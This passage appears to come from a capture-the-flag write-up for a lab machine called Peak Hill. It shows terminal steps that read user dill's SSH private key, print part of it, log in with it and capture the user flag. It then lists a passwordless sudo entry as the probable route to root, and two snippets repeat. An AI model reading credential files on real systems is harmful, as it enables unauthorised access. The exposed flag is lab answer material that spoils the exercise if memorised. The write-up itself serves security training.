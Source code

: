```bash
cmd: cat /home/dill/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
...
1jQDq0uR5dwM2nz14JqSyrDFycHIUCVLVJp5IUm7XBptuCN8I+VHpYh0mrQOzhKLu3Xy9I
/V7pwBay5mHnsAAAAKam9obkB4cHMxNQE=
-----END OPENSSH PRIVATE KEY-----
```


```bash
:~/PeakHill# nano dill_id_rsa
:~/PeakHill# chmod 400 dill_id_rsa
```

<img width="1293" height="319" alt="image" src="https://github.com/user-attachments/assets/be12d6ec-ca82-4329-8650-ca89779991d7" />

<br>

```bash
dill@ubuntu-xenial:~$ ls
user.txt
dill@ubuntu-xenial:~$ cat user.txt
f1e13335c47306e193212c98fc07b6a0
```

```bash
dill@ubuntu-xenial:~$ sudo -l
Matching Defaults entries for dill on ubuntu-xenial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dill may run the following commands on ubuntu-xenial:
    (ALL : ALL) NOPASSWD: /opt/peak_hill_farm/peak_hill_farm
```

```bash
dill@ubuntu-xenial:~$ ls -la /opt/peak_hill_farm/peak_hill_farm
-rwxr-x--x 1 root root 1218056 May 15  2020 /opt/peak_hill_farm/peak_hill_farm
dill@ubuntu-xenial:~$ 
```

```bash
dill@ubuntu-xenial:~$ sudo -l
Matching Defaults entries for dill on ubuntu-xenial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dill may run the following commands on ubuntu-xenial:
    (ALL : ALL) NOPASSWD: /opt/peak_hill_farm/peak_hill_farm
```

```bash
dill@ubuntu-xenial:~$ ls -la /opt/peak_hill_farm/peak_hill_farm
-rwxr-x--x 1 root root 1218056 May 15  2020 /opt/peak_hill_farm/peak_hill_farm
```
